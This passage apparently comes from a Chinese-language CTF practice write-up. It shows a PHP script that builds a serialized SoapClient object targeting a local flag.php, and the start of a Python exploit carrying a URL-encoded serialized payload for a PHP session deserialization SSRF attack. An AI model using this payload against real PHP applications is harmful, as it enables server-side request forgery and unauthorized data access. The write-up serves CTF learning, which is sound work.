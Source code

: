 ![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/115E71E71C40406F818F1057393B9239rlzcXtNa13x.webp)

flag到手

构造Soapclinet脚本

```javascript
<?php
$url = "http://127.0.0.1/flag.php";
$b = new SoapClient(null, array('uri' => $url, 'location' => $url));
$a = serialize($b);
$a = str_replace('^^', "\r\n", $a);
echo "|" . urlencode($a);
echo "\n";

?>
```

exp

```javascript
import requests
import re

#这里填网址
url = ""
req = requests.Session()
payload = "?f={}&name={}"

step_one_f = "session_start"
step_one_name = "|O%3A10%3A%22SoapClient%22%3A3%3A%7Bs%3A3%3A%22uri%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D"
```